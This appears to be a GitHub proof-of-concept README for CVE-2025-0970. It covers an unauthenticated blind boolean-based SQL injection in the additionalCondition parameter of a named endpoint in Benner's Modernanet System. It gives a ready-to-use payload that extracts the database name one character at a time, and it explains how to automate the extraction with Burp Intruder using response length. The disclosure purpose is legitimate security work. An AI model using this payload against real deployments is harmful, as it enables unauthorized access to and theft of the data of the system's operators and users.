

# CVE-2025-0970
The Modernanet System by Benner is vulnerable to Blind Boolean Based SQL Injection.

**Affected Version: < 1.1.1**

**OBS: For this exploit, You don't need to be authenticated!**

## POC

This vulnerability resides in the /Home/JS_CarregaCombo?formName=DADOS_PESSOAIS_PLANO&additionalCondition=&insideParameters=&elementToReturn=DADOS_PESSOAIS_PLANO&ordenarPelaDescricao=true&direcaoOrdenacao=asc&_=1739290047295 page in additionalCondition parameter,

Its possible to manipulate the parameter to insert any SQL query in victim database.

Payload example: `1=1) AND (CASE WHEN (SUBSTRING(DB_NAME(),X,1)='Y') THEN 1 ELSE 0 END=1)--`.

If you want to retrieve the database name, **just for the POC**, its just needed to change the argument X to the database name index and Y to the database name character.

## Request example:
!

---

## After intercepting the request, you can use the Intruder option in BurpSuite

### Intruder Example

Observe, we have a longer response length when the letter is 'q', i.e. the first letter of the database name is 'q'.

You can repeat this, to the other letters

https://IP/Home/JS_CarregaCombo?formName=DADOS_PESSOAIS_PLANO&additionalCondition=&insideParameters=&elementToReturn=DADOS_PESSOAIS_PLANO&ordenarPelaDescricao=true&direcaoOrdenacao=asc&_=1739290047295

---

## Reference

https://modernasistemas.com.br/
